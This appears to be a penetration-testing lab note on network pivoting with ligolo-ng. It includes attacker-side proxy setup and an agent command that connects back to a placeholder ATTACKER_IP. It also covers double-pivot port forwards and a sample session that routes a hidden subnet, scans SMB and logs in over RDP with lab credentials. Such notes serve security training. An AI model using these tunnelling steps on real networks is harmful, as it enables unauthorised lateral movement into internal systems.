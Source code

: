 
#### Setting up
Creating the `ligolo` network device:
```
sudo ip tuntap add user CURRENT_USERNAME mode tun ligolo
sudo ip link set ligolo up
```

#### Starting the proxy (attacker machine)
```
./proxy -selfcert
```

#### Starting the agent (target machines)
```
agent.exe -connect ATTACKER_IP:ATTACKER_PORT -ignore-cert
```

#### Adding the target IP route to the `ligolo` Networking device
Get the subnet from Ligolo: `Sessions --> select session --> ifconfig`. Make sure to replace the last octet with a `0`
```
ip route add SUBNET/24 dev ligolo
```
If the error message `Error: Invalid prefix for given prefix length.` pops up, set the last octet to `0`.
Cleaning up:
```
ip route del SUBNET/24
```

#### Double pivot
When a hidden domain host has another hidden domain inside of it, with a target host, double pivoting can be used. For this, the `listener_add` function can be used to forward remote ports to local ones:
```
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp        // For handling the double pivot
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp            // For uploading the agent
```

Because every Network device can only have one pivot set up, a new one needs to be added:
```
sudo ip tuntap add user CURRENT_USERNAME mode tun ligolo2
sudo ip link set ligolo2 up
start --tun ligolo2                                                 // In the session with the second pivot
```


##### Example: Windows target
```
┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #./proxy -selfcert
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!

ligolo-ng » INFO[0010] Agent joined.                                 name="MULTISERVER03\\rdp_admin@MULTISERVER03" remote="192.168.171.64:56242"
ligolo-ng » session
? Specify a session : 1 - #1 - MULTISERVER03\rdp_admin@MULTISERVER03 - 192.168.171.64:56242
[Agent : MULTISERVER03\rdp_admin@MULTISERVER03] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:9e:9e:e7              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv6 Address │ fe80::80af:e261:645f:a8f/64    │
│ IPv4 Address │ 192.168.171.64/24              │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:9e:54:7e              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv6 Address │ fe80::41f2:e449:cbf7:4b1e/64   │
│ IPv4 Address │ 10.4.171.64/24                 │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
[Agent : MULTISERVER03\rdp_admin@MULTISERVER03] »  

// Another terminal
┌─[✗]─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #ip route add 10.4.171.0/24 dev ligolo

// Back to the session

[Agent : Unknown@MULTISERVER03] » start
INFO[0236] Starting tunnel to Unknown@MULTISERVER03    

// All ready.
┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #nxc smb 10.4.171.0/24
SMB         10.4.171.64     445    MULTISERVER03    [*] Windows 10.0 Build 20348 x64 (name:MULTISERVER03) (domain:MULTISERVER03) (signing:False) (SMBv1:False)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /cert:ignore /v:10.4.171.64 /clipboard /cert:ignore /size:1920x1080 /drive:NAME,/tmp
[22:15:44:633] [1154920:1154921] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[22:15:44:635] [1154920:1154921] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[22:15:44:715] [1154920:1154921] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[22:15:44:715] [1154920:1154931] [INFO][com.freerdp.channels.rdpdr.client] - Loading device service drive [NAME] (static)
[22:15:44:716] [1154920:1154921] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx

```